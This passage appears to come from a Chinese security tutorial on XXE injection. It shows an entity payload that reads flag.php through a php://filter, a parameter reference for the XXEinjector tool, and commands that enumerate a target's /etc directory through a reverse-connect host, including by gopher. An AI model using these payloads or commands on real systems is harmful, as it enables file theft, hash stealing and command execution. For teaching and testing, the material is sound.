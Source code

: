   编码的原本内容为`<!ENTITY xxe SYSTEM 'php://filter/read=convert.base64-encode/resource=./flag.php'>`。

## 自动化 XXE 工具

**XXEinjector**是一款基于Ruby的XXE注入工具.

它可以使用多种直接或间接带外方法来检索文件。其中，目录枚举功能只对Java应用程序有效，而暴力破解攻击需要使用到其他应用程序。

建议在kali环境下运行

**基本参数详解：**

```xml-dtd
--host   必填项– 用于建立反向链接的IP地址。(--host=192.168.0.2)
--file   必填项- 包含有效HTTP请求的XML文件。(--file=/tmp/req.txt)
--path      必填项-是否需要枚举目录 – 枚举路径。(--path=/etc)
--brute     必填项-是否需要爆破文件 -爆破文件的路径。(--brute=/tmp/brute.txt)
--logger    记录输出结果。
--rhost     远程主机IP或域名地址。(--rhost=192.168.0.3)
--rport     远程主机的TCP端口信息。(--rport=8080)
--phpfilter  在发送消息之前使用PHP过滤器对目标文件进行Base64编码。
--netdoc   使用netdoc协议。(Java).``
--enumports  枚举用于反向链接的未过滤端口。(--enumports=21,22,80,443,445)
--hashes    窃取运行当前应用程序用户的Windows哈希。
--expect    使用PHP expect扩展执行任意系统命令。(--expect=ls)
--upload    使用Java jar向临时目录上传文件。(--upload=/tmp/upload.txt)
--xslt   XSLT注入测试。
--ssl       使用SSL。
--proxy     使用代理。(--proxy=127.0.0.1:8080)
--httpport Set自定义HTTP端口。(--httpport=80)
--ftpport    设置自定义FTP端口。(--ftpport=21)
--gopherport 设置自定义gopher端口。(--gopherport=70)
--jarport    设置自定义文件上传端口。(--jarport=1337)
--xsltport 设置自定义用于XSLT注入测试的端口。(--xsltport=1337)
--test   该模式可用于测试请求的有效。
--urlencode   URL编码，默认为URI。
--output    爆破攻击结果输出和日志信息。(--output=/tmp/out.txt)
--timeout   设置接收文件/目录内容的Timeout。(--timeout=20)
--contimeout 设置与服务器断开连接的，防止DoS出现。(--contimeout=20)
--fast   跳过枚举询问，有可能出现结果假阳性。
--verbose   显示verbose信息。
```

**使用方法：**

枚举HTTPS应用程序中的/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt –ssl
```

使用gopher（OOB方法）枚举/etc目录：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/req.txt --oob=gopher
```
